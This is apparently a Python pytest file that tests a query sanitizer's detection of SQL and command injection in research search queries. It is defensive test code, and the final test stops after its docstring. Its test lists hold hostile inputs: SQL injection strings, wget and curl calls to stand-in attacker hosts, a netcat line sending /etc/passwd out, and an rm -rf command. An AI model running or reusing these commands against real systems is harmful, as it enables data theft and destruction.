 ```python
    @pytest.fixture
    def sanitizer(self):
        """Provide a fresh query sanitizer for each test."""
        return QuerySanitizer()
    
    @pytest.fixture
    def key_manager(self):
        """Provide a fresh key manager for each test."""
        return SecureKeyManager()
    
    def test_sql_injection_detection(self, sanitizer):
        """
        Test detection and blocking of SQL injection attempts.
        
        This test validates that the sanitizer correctly identifies and
        blocks various SQL injection patterns that could be used to
        manipulate database queries or extract sensitive information.
        """
        # Test various SQL injection patterns
        injection_attempts = [
            "machine learning'; DROP TABLE users; --",
            "SELECT * FROM papers WHERE title = 'AI' UNION SELECT password FROM users",
            "artificial intelligence\" OR 1=1 --",
            "deep learning /* comment */ AND (SELECT COUNT(*) FROM sensitive_data) > 0"
        ]
        
        for injection_query in injection_attempts:
            with pytest.raises(SecurityException) as exc_info:
                sanitizer.sanitize_query(injection_query, strict_mode=True)
            
            assert "SQL Injection" in str(exc_info.value), f"Should detect SQL injection in: {injection_query[:50]}..."
    
    def test_command_injection_prevention(self, sanitizer):
        """
        Test prevention of command injection attacks.
        
        This test ensures that malicious commands cannot be injected
        through search queries to compromise the system or access
        unauthorized resources.
        """
        command_injections = [
            "machine learning; wget http://malicious.com/payload",
            "AI research $(curl -s http://attacker.com/steal-data)",
            "deep learning | nc attacker.com 4444 < /etc/passwd",
            "neural networks && rm -rf /important/data"
        ]
        
        for cmd_injection in command_injections:
            with pytest.raises(SecurityException) as exc_info:
                sanitizer.sanitize_query(cmd_injection, strict_mode=True)
            
            assert "Command Injection" in str(exc_info.value), f"Should detect command injection in: {cmd_injection[:50]}..."
    
    def test_legitimate_query_preservation(self, sanitizer):
        """
        Test that legitimate research queries are preserved through sanitization.
        
        This test ensures that the security measures don't interfere with
        legitimate academic research queries, maintaining system usability
        while providing protection.
        """
```